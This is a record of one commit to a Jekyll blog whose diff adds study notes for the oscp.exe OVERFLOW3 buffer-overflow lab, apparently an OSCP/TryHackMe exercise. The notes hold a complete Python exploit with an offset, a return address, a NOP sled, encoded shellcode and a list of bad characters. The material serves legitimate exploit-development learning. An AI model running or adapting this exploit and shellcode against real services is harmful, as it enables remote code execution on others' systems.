

Before and after one commit to JWlovelearning/JWlovelearning.github.io, a Jekyll site: the page built from _posts/2023-12-18-post.md, in a window 1280 px wide and 1400 px high, scrolled down 33116 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 34018 px from its top, so only the background shows below that.

Commit message:
Update 2023-12-18-post.md

````diff
--- a/_posts/2023-12-18-post.md
+++ b/_posts/2023-12-18-post.md
@@ -891,6 +891,65 @@ icon: note
 
 ## oscp.exe - OVERFLOW3
 
++ 最终exp:
+
+```
+import socket
+
+ip = "10.10.154.181"
+port = 1337
+
+prefix = "OVERFLOW3 "
+offset = 1274
+overflow = "A" * offset
+retn = "\x03\x12\x50\x62"
+padding = "\x90" * 16
+payload = ("\xfc\xbb\x86\xf0\xf5\xe3\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
+"\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x7a\x18\x77"
+"\xe3\x82\xd9\x18\x6d\x67\xe8\x18\x09\xec\x5b\xa9\x59\xa0"
+"\x57\x42\x0f\x50\xe3\x26\x98\x57\x44\x8c\xfe\x56\x55\xbd"
+"\xc3\xf9\xd5\xbc\x17\xd9\xe4\x0e\x6a\x18\x20\x72\x87\x48"
+"\xf9\xf8\x3a\x7c\x8e\xb5\x86\xf7\xdc\x58\x8f\xe4\x95\x5b"
+"\xbe\xbb\xae\x05\x60\x3a\x62\x3e\x29\x24\x67\x7b\xe3\xdf"
+"\x53\xf7\xf2\x09\xaa\xf8\x59\x74\x02\x0b\xa3\xb1\xa5\xf4"
+"\xd6\xcb\xd5\x89\xe0\x08\xa7\x55\x64\x8a\x0f\x1d\xde\x76"
+"\xb1\xf2\xb9\xfd\xbd\xbf\xce\x59\xa2\x3e\x02\xd2\xde\xcb"
+"\xa5\x34\x57\x8f\x81\x90\x33\x4b\xab\x81\x99\x3a\xd4\xd1"
+"\x41\xe2\x70\x9a\x6c\xf7\x08\xc1\xf8\x34\x21\xf9\xf8\x52"
+"\x32\x8a\xca\xfd\xe8\x04\x67\x75\x37\xd3\x88\xac\x8f\x4b"
+"\x77\x4f\xf0\x42\xbc\x1b\xa0\xfc\x15\x24\x2b\xfc\x9a\xf1"
+"\xfc\xac\x34\xaa\xbc\x1c\xf5\x1a\x55\x76\xfa\x45\x45\x79"
+"\xd0\xed\xec\x80\xb3\x1b\xfa\xb7\x38\x74\xfe\xc7\xaf\xd8"
+"\x77\x21\xa5\xf0\xd1\xfa\x52\x68\x78\x70\xc2\x75\x56\xfd"
+"\xc4\xfe\x55\x02\x8a\xf6\x10\x10\x7b\xf7\x6e\x4a\x2a\x08"
+"\x45\xe2\xb0\x9b\x02\xf2\xbf\x87\x9c\xa5\xe8\x76\xd5\x23"
+"\x05\x20\x4f\x51\xd4\xb4\xa8\xd1\x03\x05\x36\xd8\xc6\x31"
+"\x1c\xca\x1e\xb9\x18\xbe\xce\xec\xf6\x68\xa9\x46\xb9\xc2"
+"\x63\x34\x13\x82\xf2\x76\xa4\xd4\xfa\x52\x52\x38\x4a\x0b"
+"\x23\x47\x63\xdb\xa3\x30\x99\x7b\x4b\xeb\x19\x9b\xae\x39"
+"\x54\x34\x77\xa8\xd5\x59\x88\x07\x19\x64\x0b\xad\xe2\x93"
+"\x13\xc4\xe7\xd8\x93\x35\x9a\x71\x76\x39\x09\x71\x53\x39"
+"\xad\x8d\x5c")
+postfix = ""
+
+buffer = prefix + overflow + retn + padding + payload + postfix
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+try:
+  s.connect((ip, port))
+  print("Sending evil buffer...")
+  s.send(bytes(buffer + "\r\n", "latin-1"))
+  print("Done!")
+except:
+  print("Could not connect.")
+```
+
++ EIP:1274
++ badchars: \x00\x11\x40\x5f\xb8\xee
+
+## oscp.exe - OVERFLOW4
+
 + 后续补充
 
 
````
